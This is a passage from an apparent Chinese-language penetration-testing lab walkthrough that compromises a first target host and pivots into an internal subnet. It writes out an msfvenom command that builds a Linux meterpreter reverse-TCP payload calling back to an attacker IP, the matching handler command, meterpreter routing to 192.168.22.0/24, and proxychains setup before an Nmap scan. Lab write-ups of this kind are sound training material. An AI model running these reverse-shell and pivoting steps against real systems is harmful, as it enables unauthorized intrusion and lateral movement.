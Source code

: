 ![image-20210823201947729](https://husins.oss-cn-beijing.aliyuncs.com/image-20210823201947729.png)

执行`ping.sh`

![image-20210825104523914](https://husins.oss-cn-beijing.aliyuncs.com/image-20210825104523914.png)

这里扫到`129`和`130`,其中`130`是当前机器的IP地址,那么`129`就是内网纵向渗透目标。

### 将靶机上线到MSF

使用`uname -a`收集目标机信息，得到为`64位linux`系统

![image-20210825105559265](https://husins.oss-cn-beijing.aliyuncs.com/image-20210825105559265.png)

使用msf生成木马文件，并上传

`msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=192.168.43.165 lport=5000 -f elf > msf5000.elf`

![image-20210825105858772](https://husins.oss-cn-beijing.aliyuncs.com/image-20210825105858772.png)

将生成的木马上传到目标机器，并赋予`777`权限

![image-20210825110113400](https://husins.oss-cn-beijing.aliyuncs.com/image-20210825110113400.png)

在MSF开启监听，然后在目标机运行木马文件（因为这里是反向连接）

攻击机操作：`handler -p linux/x64/meterpreter_reverse_tcp -H 192.168.43.165 -P 5000`

![image-20210825110548001](https://husins.oss-cn-beijing.aliyuncs.com/image-20210825110548001.png)

目标机操作：`./msf5000.elf`

![image-20210825110651768](https://husins.oss-cn-beijing.aliyuncs.com/image-20210825110651768.png)

收到会话，成功拿到`meterperter`进入主机：

![image-20210825111505890](https://husins.oss-cn-beijing.aliyuncs.com/image-20210825111505890.png)

## 0x2拿下Target2

在`meterpreter`中添加路由信息：`route add  -s 192.168.22.0/24`

![image-20210825120423737](https://husins.oss-cn-beijing.aliyuncs.com/image-20210825120423737.png)

使用代理模块构建代理

![image-20210825121602169](https://husins.oss-cn-beijing.aliyuncs.com/image-20210825121602169.png)

`vim /etc/proxychains4.conf`配置代理工具

![image-20210825121901955](https://husins.oss-cn-beijing.aliyuncs.com/image-20210825121901955.png)

使用Nmap对内网`192.168.22.129`进行扫描（这里由于协议的问题你的ping是不能用的）
